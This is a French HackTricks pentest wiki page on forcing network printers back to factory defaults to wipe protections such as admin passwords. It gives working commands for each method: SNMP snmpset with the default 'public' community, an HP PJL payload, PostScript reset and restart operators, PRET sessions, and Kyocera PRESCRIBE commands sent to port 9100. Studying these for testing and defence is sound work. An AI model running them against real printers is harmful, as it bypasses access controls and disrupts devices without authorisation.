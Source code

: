 <details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>


**Réinitialiser** un appareil aux valeurs d'usine est une fonctionnalité critique pour la sécurité car elle **écrase les mécanismes de protection** comme les mots de passe définis par l'utilisateur. Cela peut généralement être fait en appuyant sur une **combinaison de touches spéciale** sur le **panneau de contrôle** de l'imprimante. Effectuer une telle réinitialisation à froid ne prend que quelques secondes et est donc un scénario réaliste pour les attaquants locaux ou les pentesters, qui peuvent par exemple se faufiler dans la salle de copie à l'heure du déjeuner. Cependant, l'**accès physique** à l'appareil **n'est pas toujours une option**.

### SNMP

Le Printer-MIB définit l'objet **prtGeneralReset** (**OID 1.3.6.1.2.1.43.5.1.1.3.1**) qui permet à un attaquant de redémarrer l'appareil (powerCycleReset(4)), de réinitialiser les paramètres NVRAM (resetToNVRAM(5)) ou de restaurer les valeurs d'usine (resetToFactoryDefaults(6)) à l'aide de SNMP. Cette fonctionnalité/attaque est **prise en charge par une grande variété d'imprimantes** et supprime tous les mécanismes de protection comme les mots de passe définis par l'utilisateur pour le serveur web embarqué. Bien que les mécanismes de protection puissent être contournés efficacement, un inconvénient pratique de cette approche est que toute la configuration **d'adresse IP statique sera perdue**. **Si aucun service DHCP** n'est disponible, l'attaquant ne pourra **pas** se **reconnecter** à l'appareil après l'avoir réinitialisé aux valeurs d'usine.

**Réinitialiser l'appareil aux valeurs d'usine** peut être accompli en utilisant la commande `snmpset` comme indiqué ci-dessous (vous devez connaître la **chaîne de communauté**, par défaut dans la plupart des cas c'est `public`) :
```bash
snmpset -v1 -c public printer 1.3.6.1.2.1.43.5.1.1.3.1 i 6
```
### [PML](./#pml)/[PJL](./#pjl)

Dans de nombreux scénarios, un attaquant n'a pas la capacité d'effectuer des requêtes SNMP à cause de pare-feu ou de chaînes de communauté SNMP inconnues. Cependant, sur les **appareils HP**, le **SNMP** peut être transformé en sa **représentation PML** et intégrer la requête dans un travail d'impression légitime. Cela permet à un attaquant de **redémarrer et/ou réinitialiser l'appareil** aux paramètres d'usine par le biais de travaux d'impression ordinaires comme illustré ci-dessous :
```bash
@PJL DMCMD ASCIIHEX="040006020501010301040106"
```
Toute personne peut reproduire cette attaque sur les imprimantes HP, le redémarrage ou la réinitialisation de l'appareil peut facilement être reproduit en utilisant [**PRET**](https://github.com/RUB-NDS/PRET) :
```bash
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> reset
printer:/> restart
```
### PostScript

PostScript offre une fonctionnalité similaire : le paramètre système **FactoryDefaults**, 'un drapeau qui, s'il est **défini sur vrai** **immédiatement avant** que **l'imprimante soit éteinte**, entraîne la réinitialisation de tous les paramètres non volatils à leurs valeurs par **défaut d'usine** lors de la prochaine mise sous tension'. Il faut noter que **PostScript** lui-même a également la capacité de **redémarrer** son **environnement** mais cela nécessite un **mot de passe valide**. \
Cependant, l'interpréteur PostScript peut être mis dans une **boucle infinie** comme discuté dans les attaques DoS de [traitement de documents](http://hacking-printers.net/wiki/index.php/Document\_processing) ce qui oblige l'utilisateur à **redémarrer manuellement** l'appareil et donc à réinitialiser le mot de passe PostScript.

Réinitialiser les paramètres système PostScript aux valeurs par défaut d'usine :
```bash
<< /FactoryDefaults true >> setsystemparams
```
Redémarrez l'interpréteur PostScript et la mémoire virtuelle :
```bash
true 0 startjob systemdict /quit get exec
```
Toute personne pouvant redémarrer ou réinitialiser l'interpréteur PostScript d'une imprimante peut **être facilement reproduite en utilisant** [**PRET**](https://github.com/RUB-NDS/PRET) :
```bash
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> reset
printer:/> restart
```
### PRESCRIBE

Pour les **appareils Kyocera**, les langages de description de page **PRESCRIBE** peuvent être utilisés pour **réinitialiser l'appareil** aux paramètres d'usine par défaut à partir de travaux d'impression ordinaires en utilisant l'une des commandes ci-dessous :
```bash
!R! KSUS "AUIO", "CUSTOM:Admin Password = 'admin00'";  CMMT "Drop the security level, reset password";
!R! ACNT "REST";                                       CMMT "Reset account code admin password";
!R! EGRE;                                              CMMT "Reset the engine board to factory defaults";
!R! SIOP0,"RESET:0";                                   CMMT "Reset configuration settings";
```
Pour reproduire cette attaque, ouvrez une connexion réseau brute sur le port 9100/tcp de l'imprimante et **envoyez les commandes documentées ci-dessus**.

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
